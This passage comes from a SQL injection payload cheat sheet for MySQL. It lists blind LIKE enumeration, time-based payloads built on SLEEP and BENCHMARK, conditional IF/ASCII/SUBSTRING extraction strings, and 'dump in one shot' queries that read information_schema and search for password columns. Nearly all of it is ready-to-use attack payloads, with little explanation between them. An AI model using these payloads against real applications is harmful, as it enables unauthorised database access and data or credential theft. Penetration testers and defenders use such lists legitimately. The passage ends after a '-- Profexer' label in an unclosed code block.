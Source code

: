 ### MYSQL Blind with LIKE

['_'](https://www.w3resource.com/sql/wildcards-like-operator/wildcards-underscore.php) acts like the regex character '.', use it to speed up your blind testing

```sql
SELECT cust_code FROM customer WHERE cust_name LIKE 'k__l';
```

## MYSQL Time Based

The following SQL codes will delay the output from MySQL.

```sql
+BENCHMARK(40000000,SHA1(1337))+
'%2Bbenchmark(3200,SHA1(1))%2B'
AND [RANDNUM]=BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]'))  //SHA1
RLIKE SLEEP([SLEEPTIME])
OR ELT([RANDNUM]=[RANDNUM],SLEEP([SLEEPTIME]))
```

### Using SLEEP in a subselect

```powershell
1 and (select sleep(10) from dual where database() like '%')#
1 and (select sleep(10) from dual where database() like '___')# 
1 and (select sleep(10) from dual where database() like '____')#
1 and (select sleep(10) from dual where database() like '_____')#
1 and (select sleep(10) from dual where database() like 'a____')#
...
1 and (select sleep(10) from dual where database() like 's____')#
1 and (select sleep(10) from dual where database() like 'sa___')#
...
1 and (select sleep(10) from dual where database() like 'sw___')#
1 and (select sleep(10) from dual where database() like 'swa__')#
1 and (select sleep(10) from dual where database() like 'swb__')#
1 and (select sleep(10) from dual where database() like 'swi__')#
...
1 and (select sleep(10) from dual where (select table_name from information_schema.columns where table_schema=database() and column_name like '%pass%' limit 0,1) like '%')#
```

### Using conditional statements

```sql
?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()),1,1)))>=100,1, BENCHMARK(2000000,MD5(NOW()))) --
?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()), 1, 1)))>=100, 1, SLEEP(3)) --
?id=1 OR IF(MID(@@version,1,1)='5',sleep(1),1)='2
```

## MYSQL DIOS - Dump in One Shot

```sql
(select (@) from (select(@:=0x00),(select (@) from (information_schema.columns) where (table_schema>=@) and (@)in (@:=concat(@,0x0D,0x0A,' [ ',table_schema,' ] > ',table_name,' > ',column_name,0x7C))))a)#

(select (@) from (select(@:=0x00),(select (@) from (db_data.table_data) where (@)in (@:=concat(@,0x0D,0x0A,0x7C,' [ ',column_data1,' ] > ',column_data2,' > ',0x7C))))a)#

-- SecurityIdiots
make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)

-- Profexer
```